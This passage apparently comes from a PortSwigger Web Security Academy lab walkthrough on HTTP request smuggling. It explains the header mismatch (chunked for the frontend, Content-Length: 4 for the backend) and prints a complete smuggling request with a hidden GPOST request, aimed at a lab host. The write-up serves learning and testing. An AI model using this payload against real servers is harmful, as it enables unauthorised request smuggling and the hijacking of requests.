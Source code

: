 If we add a payload to add only 1 character, the “0” character gets added to the
next request as well:

![img](media/e935c4b0317c491c2abab4c3ea19b9ae.png)

The final payload needs: - *Transfer-Encoding: chunked* for the frontend -
*Content-Length: 4* for the backend: It will take until the “26” characters -
*26* is the size in HEXADECIMAL for the following payload. Calculated as the
length of each line + 2 for each new line character ("\\n"). - *GPOST /
HTTP/1.1* to execute the GPOST request - *Content-Length: 10* Because the
backend is what understands - *0* to end the second chunk - 2 spaces after the
“0” character

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
Host: 0a0c00cf030aaea982b5514b00a0005c.web-security-academy.net
Cookie: session=irWl3kQHO1irsOGobgJR43XvMwB3OAAk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

26
GPOST / HTTP/1.1
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
